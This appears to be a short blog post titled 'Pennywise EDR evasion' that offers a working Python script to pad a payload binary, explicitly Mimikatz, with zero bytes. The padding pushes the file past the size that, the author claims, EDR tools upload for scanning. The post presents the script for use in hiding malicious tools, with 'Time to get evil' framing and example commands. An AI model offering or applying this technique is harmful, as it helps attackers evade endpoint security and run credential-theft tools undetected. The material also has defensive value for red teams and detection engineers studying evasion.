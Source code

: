```yaml
---

layout: post
title: Pennywise EDR evasion
---
```


<img height="200" align="left" src="/images/pennywise.png"> <br><br>Wanna have a balloon? This Tiny script helps to hide your payload (like Mimikatz.exe) by inflating the Binary like a red ballon. Most EDR Tools only transfer the first 25 MB to the Server, so why not filling up the payload with some garbage and play some mind tricks? This change of the file size will keep the binary as it is but busts the file size. TIme to get evil ...

<br><br><br><br><br><br>
Tiny intro how this script works:

![](../images/pennywise_inflate.gif)

```python
#!/usr/bin/env python3
import argparse
import struct
import sys


parser = argparse.ArgumentParser(
    description="Pennywise's Red Balloon - Inflate your Payload"
)

parser.add_argument(
    "-f",
    "--file",
    help="Binary or file path including the binary",
)

parser.add_argument(
    "-s", 
    "--size",
    default=150,
    help="Size in MB to inflate binary - Default 150 MB", 
    type=int
)

args = parser.parse_args()

if len(sys.argv) <= 1:
    parser.print_help()
    sys.exit(1)

if not args.file:
    print("[!] Binary or path to a binary required!\n\n"
    "\t$ python -f c:\\fun\\mimikatz.exe -s 100\n"
    "\t$ python -f mimikatz.exe -s 250\n\n")
    parser.print_help()
    sys.exit(1)    

def transform(file, size):
    print("[!]\tInflating %s by %s MB" % (file, size))
    blank_bytes = struct.pack('B', 0)
    
    with open(file, 'ab') as file:
        file.write(blank_bytes * 1024 * 1024 * size)
        
    print("[!]\tOperation Complete...\n")

if __name__ == "__main__":
    transform(args.file, args.size)
```
